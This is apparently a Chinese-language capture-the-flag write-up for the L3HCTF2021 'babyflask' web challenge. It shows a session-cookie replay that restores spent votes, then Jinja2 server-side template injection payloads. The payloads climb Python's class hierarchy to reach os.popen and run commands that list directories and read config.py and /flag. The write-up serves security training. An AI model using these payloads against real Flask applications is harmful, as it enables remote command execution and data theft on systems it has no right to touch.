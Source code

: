 # babyflask
*http://123.60.19.253:10001*

---

分析给出的源文件,发现`/success`路由下的`name`存在SSTI漏洞.

继续分析,`name`取自`session['name']`,用户登录时会自动创新用户和删除前一个同名用户的登录信息,那其实我们用注入的代码的作为用户名直接登录即可.

```python
template =  '''
Congratulations, %s. You can get flag now!
''' % name
return render_template_string(template)
```

要想执行到上述代码,需要给flag投满8票(我们手里只有5票),注意到vote是存储在session中,`/vote`接口会校验`session`中保存的vote数量并减一,猜测这里可能存在session会话劫持.

我们第一次登录时复制一下当前的`session`,然后给flag投票,等手里的票用光之后,再把第一次登录时复制的`seesion`粘贴进浏览器保存的Cookie中,我们的票又回来了.

>🤠登录后疯狂点击“投票”,也能投满8票;可能因为Server响应太慢,浏览器中保存的session还没来得及被更新,导致多个请求发起时共用一个session(即vote数量相等),session中保存的vote最终只会减一.

<img src="../../CTF/L3HCTF2021-个人能力认证/Web/images/0.jpg" alt="image-20211114190032492" style="zoom:50%;" />

使用如下代码作为用户名登录,查看一下当前已加载模块

```python
{{''.__class__.__bases__[0].__subclasses__()}}
```
<img src="../../CTF/L3HCTF2021-个人能力认证/Web/images/1.jpg" alt="image-20211114182131940" style="zoom:50%;" />

人肉计数/写个脚本,找到`os._wrap_close`模块所在的索引,借助于`popen`函数可以直接执行系统命令

```python
num = 0
for i in a.split(', '):
    if 'os._wrap_close' in i:
        print(num)
    num += 1
```

先`ls -a`一下,发现`config.py`

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -a').read()}}
```

![image-20211114183143814](../../CTF/L3HCTF2021-个人能力认证/Web/images/2.png)
继续`cat`,没有在`config.py`中找到flag

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat config.py').read()}}
```

![image-20211114183703433](../../CTF/L3HCTF2021-个人能力认证/Web/images/3.png)

用`ls -R /`找找,发现存在`/flag`文件

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -R /').read()}}
```

![image-20211114183857713](../../CTF/L3HCTF2021-个人能力认证/Web/images/4.jpg)
直接`cat /flag`即可

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

![image-20211114184236370](../../CTF/L3HCTF2021-个人能力认证/Web/images/5.png)

**flag:**`l3hsec{emmMmMM_mm~mMMmm~~T}`

